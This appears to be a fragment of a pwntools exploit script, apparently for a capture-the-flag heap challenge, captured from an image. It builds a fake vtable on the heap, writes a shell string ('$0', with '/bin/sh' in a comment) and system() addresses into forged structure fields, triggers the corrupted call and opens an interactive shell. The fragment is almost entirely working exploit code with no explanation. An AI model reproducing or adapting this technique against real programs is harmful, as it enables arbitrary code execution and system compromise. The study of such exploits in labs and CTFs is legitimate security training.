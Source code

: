 ```
edit(3, 0, vtable-8-8*6)
edit(1, 6, heap_addr-0x90-0x8)# fake_vtable in heap

edit(0, 1, u64('$0\x00\x00\x00\x00\x00\x00'))#u64('/bin/sh\x00'))
edit(0, 2, 0)
edit(0, 3, 0)
edit(0, 4, 0)
edit(0, 5, 0)
edit(0, 6, 1)

for i in range(7, 22):
	edit(0, i, 0)

edit(0, 22, heap_addr+0x20-0x8)

for i in range(23, 23+3):
	edit(0, i, 0)

pause()
# edit(0, 25, system_addr)
edit(0, 26, system_addr)
edit(0, 27, system_addr)
edit(0, 28, heap_addr+0x20-0x8+24)
edit(0, 29, system_addr)

p.sendline('6')

p.interactive()
```